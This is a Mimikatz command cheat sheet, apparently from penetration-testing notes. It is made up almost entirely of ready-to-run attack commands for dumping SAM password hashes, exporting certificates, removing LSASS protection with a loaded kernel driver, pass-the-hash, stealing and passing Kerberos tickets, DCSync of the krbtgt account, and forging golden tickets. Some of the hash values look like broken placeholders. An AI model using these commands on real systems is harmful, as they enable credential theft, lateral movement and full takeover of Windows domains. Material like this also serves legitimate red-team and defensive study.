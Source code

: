 # Mimikatz

## SAM File - Local accounts

```csharp
mimikatz # privilege::debug Privilege
mimikatz # lsadump::SAM /SAM:C:\Users\b3v1l\Desktop\SAM /SYSTEM:C:\Users\b3v1l\Desktop\SYSTEM
```

```text
lsadump::sam /system:C:\Users\b3v1l\Documents\test\sam\system /sam:C:\Users\b3v1l\Documents\test\sam\sam
```

![](../../../.gitbook/assets/image%20%28309%29.png)

## Export Certificats

```text
mimikatz# crypto::capi
mimikatz# privilege:debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

## Disable LSASS protection

### Manually

* Upload mimidrv.sys on the target
* Create a service task

```csharp
sc create mimidrv binpath= C:\temp\mimidrv.sys type= kernel start= demand
```

* Start the task

```csharp
sc start mimidrv
```

* Then, using mimikatz

```csharp
!processprotect /process:lsass.exe /remove
```

### Full mimikatz version

* Copy the mimikatz and sys driver on the disk
* Start mimikatz and load the driver. Disable Lsass protection

```csharp
privilege::debug
!+
!processprotect /process:lsass.exe /remove
```

## Pass the Hash

```text
Invoke-Mimikatz -Command '"sekurlsa::pth /user:targetaccount /domain:test.lab.local /ntlm:b38ff50
264bc43012185d82c69794a4d8 /run:powershell.exe"'
```

## Kerberos Tickets

### List tickets

```csharp
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

### Export tickets

```text
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

### Pass the Ticket

```csharp
Invoke-Mimikatz -Command '"kerberos::ptt [0;9eaea]-2-0-60a10000-administrator@krbtgt-HOME.LAB.COM.kirbi"'
```

### Golden Ticket

#### Dcsync using a priv account on the dc 

```csharp
lsadump::dcsync /domain:target.domain.com /user:prod\krbtgt
```

#### Use krbtgt to impersonate anyone on the domain

```csharp
 kerberos::golden /user:Administrator /domain:target.domain.com /sid:S-1-5-21-634106289-36255656793-12345407 /id:500 /group/512 /krbtgt=dfdsfwefdccfbb7cc8eeadf7ce1 /startoffset=0 /endin=600 /renewmax:10080 /ptt
```



